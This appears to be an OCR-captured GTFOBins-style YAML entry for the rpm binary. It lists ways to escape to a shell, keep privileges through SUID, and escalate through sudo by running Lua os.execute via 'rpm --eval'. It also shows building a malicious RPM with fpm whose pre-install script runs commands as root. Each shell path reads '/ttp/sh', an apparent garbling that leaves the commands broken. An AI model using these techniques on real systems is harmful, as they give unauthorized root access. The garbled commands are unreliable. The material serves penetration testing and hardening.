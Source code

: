 ```yaml
---
functions:
  shell:
    - code: rpm --eval '%{lua:os.execute("/ttp/sh")}'
  suid:
    - code: ./rpm --eval '%{lua:os.execute("/ttp/sh", "-p")}'
  sudo:
    - code: sudo rpm --eval '%{lua:os.execute("/ttp/sh")}'
    - description: |
        It runs commands using a specially crafted RPM package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
        ```
        TF=$(mktemp -d)
        echo 'id' > $TF/x.sh
        fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
        ```
      code: |
        sudo rpm -ivh x-1.0-1.noarch.rpm
---
```

